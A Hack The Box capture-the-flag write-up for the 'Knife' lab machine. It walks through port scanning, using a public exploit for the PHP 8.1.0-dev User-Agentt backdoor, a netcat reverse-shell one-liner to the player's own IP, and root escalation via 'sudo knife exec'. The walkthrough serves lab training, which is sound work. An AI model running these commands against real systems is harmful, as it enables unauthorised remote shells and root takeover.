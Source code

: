 # HTB - Knife

#### Ip: 10.10.10.242
#### Name: Knife
#### Rating: Easy

----------------------------------------------------------------------

![Knife.png](../assets/knife_assets/Knife.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:28 CDT
Nmap scan report for 10.10.10.242
Host is up (0.071s latency).
Not shown: 65384 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```  

Lets dive a bit deeper and scan ports 22 and 80 using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -sC -sV -T4 10.10.10.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:30 CDT
Nmap scan report for 10.10.10.242
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

Because we will most likely get a foothold using a web based exploit, it never hurts to kick of a Nikto scan, and see if there is some low hanging fruit.

Looking over the results we can see Nikto identified PHP/8.1.0-dev. From past experience I recall there may have been a vulnerability or a backdoor with this version.

![nikto.png](../assets/knife_assets/nikto.png) 

Heading over to Google confirms there is indeed a backdoor in this version, and it is easily exploitable. 

While is is definitely possible to exploit this backdoor manually in BurpSuite, today I'm going to utilize this exploit found on ExploitDB: https://www.exploit-db.com/exploits/49933. 

In the comments the exploit mentions:

"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell on the host."

Taking a closer look at the exploit we can see that we will be appending a cmd to the user-agentt field:

![user-agentt.png](../assets/knife_assets/user-agentt.png)

Let's fire off the exploit and try and get onto the box.

### Exploitation

After copying the script to my exploits folder, I execute the exploit and get a pseudo-shell as user James. 

![exploit.png](../assets/knife_assets/exploit.png)

This is all well and good, but I'd prefer a proper reverse shell, that way I can keep some persistence on the box in case the pseudo-shell crashes.

To do this I simply set up a netcat listener and issue this one-liner:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
```

I can now stabilize the shell using Python:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And grab the first flag:

![user_flag.png](../assets/knife_assets/user_flag.png)

### Privilege Escalation

Running `sud -l` I can see that user James can run `knife` with root permissions:

```text
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

According to the man-pages:

"knife  is a command-line tool that provides an interface between a local chef-repo and the Chef server."

Lets take a look at https://gtfobins.github.io/ to see if we can find a way to exploit this:

![gtfobins.png](../assets/knife_assets/gtfobins.png)

Cool, so looks like we simply have to run `sudo knife exec -E 'exec "/bin/sh"'` to escalate to root:

```text
james@knife:~$ whoami
whoami
james
james@knife:~$ 

    sudo knife exec -E 'exec "/bin/sh"'


james@knife:~$ 
james@knife:~$     sudo knife exec -E 'exec "/bin/sh"'
# # whoami
whoami
root
```

Nice! All that's left to do now is grab the root flag!

![root_flag.png](../assets/knife_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------
